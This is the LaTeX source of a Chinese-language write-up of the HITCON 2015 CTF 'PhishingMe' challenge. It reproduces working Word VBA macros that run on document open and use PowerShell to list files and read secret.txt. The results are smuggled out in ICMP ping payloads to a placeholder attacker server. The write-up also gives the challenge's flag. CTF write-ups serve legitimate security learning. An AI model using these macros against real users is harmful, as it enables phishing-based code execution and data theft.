%!TEX program = xelatex
\documentclass[a4paper,UTF8]{ctexart}

\usepackage{fontspec}
\usepackage{amsmath}
\usepackage{float}
\usepackage{graphicx}
\usepackage{amssymb}
\usepackage{epstopdf}
\usepackage{mathrsfs}
\usepackage{stmaryrd}
\usepackage{color}
\usepackage{listings}
\usepackage{ulem}
\usepackage{lmodern}
\usepackage[T1]{fontenc}
\usepackage[margin=2cm]{geometry}
\usepackage{titlesec}
\usepackage{svg}
\usepackage{tikz}
\usepackage{hyperref}
\usepackage[noblocks]{authblk}

\setlength{\parskip}{5pt}

\usepackage{MyTitle}
\titleformat{\section}[hang]{\bfseries\fontsize{16pt}{0pt}\selectfont}{\thesection}{.5em}{}{}


% 对于使用 Tex Pad 打开本 TeX 文档的用户,请使用这行代码
\usepackage[cache=false,outputdir=.texpadtmp]{minted}
% 其它用户使用这行
%\usepackage{minted}
%

%To do: 修改标题和作者及联系方式
\title{HITCON2015 Quals, Misc100, PhishingMe}

\author{许伟杰(Tangerine)}
\affil{哈尔滨工业大学,计算机科学与技术学院,alentangerine@gmail.com}

\date{}

\begin{document}
\maketitle

\begin{center}
\parbox{0.9\textwidth}{
\textbf{摘~~~要}\quad 本文是 HITCON2015 Quals 比赛 PhishingMe 一题的题解,主要介绍了此题的解题思路和解题方法。\\
\textbf{关键词}\quad HITCON, CTF, Misc, VBA, 邮件钓鱼\\}
\end{center}


%------------------------------------------------------------------------------------------------------------------------------
%------------------------------------------------------------------------------------------------------------------------------
%To do: 正文开始
%------------------------------------------------------------------------------------------------------------------------------
%------------------------------------------------------------------------------------------------------------------------------
\section{声明}
该题最终解题思路,代码及截图来自Samurai战队于互联网上公开的writeup,在此向他们表示祝贺并致敬。原文链接及FreeBuf翻译后链接分别如下:

\begin{enumerate}
	\item \url{http://ctfhacker.com/ctf/phishing/2015/10/19/hitcon-phishingme.html}
	\item \url{http://www.freebuf.com/articles/system/82717.html}
\end{enumerate}

\section{题目描述}

本题是一道分值为 200 的杂项题目,其描述如下:\\

\begin{quizdesc}[label=Misc 200 PhishingMe]
Sent me a .doc, I will open it if your subject is "HITCON 2015"!
Find the flag under my file system. 
p.s. I've enabled Macro for you. ^_________________^
phishing.me.hitcon.2015@gmail.com.
\end{quizdesc}

由题干中我们可获得如下信息:

\begin{enumerate}
	\item 目标机器上很可能运行windows系统
	\item 题目暗示使用宏进行攻击
	\item flag作为文件放置于文件系统中,需要想办法找到并打开文件
\end{enumerate}

\section{解题思路}

\subsection{构造测试用的恶意word文件}

根据题目要求,我们新建一个word文档,并将格式保存为Word 97-2003 文档(*.doc)。然后转到"视图"选项卡,选择"宏"->"查看宏",在"宏名"中输入 AutoExec,以便让我们的宏命令在文件被打开时自动运行。为了检验运行效果,我写了一个自动发送邮件的脚本并在本机上配置了OutLook,保存后打开word文档,邮箱里收到了测试邮件。
代码如下:

\begin{minted}{vbnet}
Sub mail2()

  Application.ScreenUpdating = False

  Set Temp = CreateObject("outlook.application")
  Set Newmail = Temp.CreateItem(olMailItem)

  With Newmail
    .To = "244817312@qq.com"
    .Subject = "test HITCON"
    .body = "test OK"
    '.Attachments.Add ("附件所在本地地址")
    .Send\
  End With
 
  Application.ScreenUpdating = True

End Sub

Sub AutoExec()

  AutoExec 宏
  Call mail2
  
End Sub
\end{minted}

\subsection{我的失败测试}

在本地测试成功后我尝试按照题目要求将文件作为附件发送给题目提供的邮箱地址,很快我收到了一封返回邮件。

\begin{figure}[H]
\centering
  
\includegraphics{retrurnMail.eps}
\end{figure}

但是对方并没有成功执行我的脚本(或者说执行成功了但是邮件没有投递到我的邮箱中)。由于想不到其他测试手段,最后只能无奈放弃这道题。下一个小节讨论的是正确解法。

\subsection{正确思路}

Samurai战队给出的测试方法是ping,代码如下:

\begin{minted}{vbnet}
Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")
    strCmd = "cmd.exe /c ""ping SERVER\_IP"""
    Set objExec = objShell.Exec(strCmd)
End Function
\end{minted}

在把邮件发送给对方后,他们通过tcpdump捕捉到了回复:

\begin{quizdesc}
10:29:21.411226 IP VICTIM-IP > MY-IP: ICMP echo request, id 1, seq 21, length 40
\end{quizdesc}

随后他们尝试了使用shell,但是他们失败了。于是他们决定尝试使用ICMP包来传输数据。理论依据是下面两张图片:

\begin{figure}[H]
\centering
  
\includegraphics[scale = 0.7]{func.eps}
  \caption{System.Net.NetworkInformation.Ping 在 MSDN中的定义}\label{ping}
\end{figure}

\begin{figure}[H]
\centering
  
\includegraphics[scale = 0.7]{icmp.eps}
  \caption{ICMP包数据结构}\label{icmp}
\end{figure}

图 \ref{ping}显示了ping函数需要需要IP address, timeout, 以及a buffer作为参数。图 \ref{icmp}则显示了ICMP echo request中有一个数据缓冲区,可以通过第三个参数Send函数进行设置。

接下来他们写了一个脚本对附件保存的路径进行dir,试图发现一些线索,代码如下:

\begin{minted}{vbnet}
Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")    
    strCmd = "powershell ""$dir=dir;(New-Object System.Net.NetworkInformation.Ping).Send('OUR\_SERVER\_IP', 1000, [system.Text.Encoding]::UTF8.GetBytes($dir)"""
    Set objExec = objShell.Exec(strCmd)
End Function
\end{minted}

他们收到的返回结果如下图:
\begin{figure}[H]
\centering
  
\includegraphics[scale = 0.65]{dir.eps}
\end{figure}

注意到图中显示有一个名为\code{secret.txt}的文件,再次修改脚本(事实上唯一的修改是将\code{\$dir}里的内容修改为 \code{type secret.txt}),将该文件打开并送回文件内容,代码如下:

\begin{minted}{vbnet}
Sub AutoOpen()
    Call Debugging
End Sub

Public Function Debugging() As Variant
    Set objShell = CreateObject("Wscript.Shell")  
    strCmd = "powershell ""$dir=type secret.txt;(New-Object System.Net.NetworkInformation.Ping).Send('OUR\_SERVER\_IP', 1000,[system.Text.Encoding]::UTF8.GetBytes($dir)"""
    Set objExec = objShell.Exec(strCmd)
End Function
\end{minted}

返回结果如下图:

\begin{figure}[H]
\centering
  
\includegraphics[scale = 0.65]{flag.eps}
\end{figure}

从图中得到了flag: \code{hitcon\{m4cr0\_ma1ware\_1s\_m4k1ng\_a\_c0meb4ck!!\}}
%------------------------------------------------------------------------------------------------------------------------------
%OK: 正文结束
%------------------------------------------------------------------------------------------------------------------------------


\end{document}
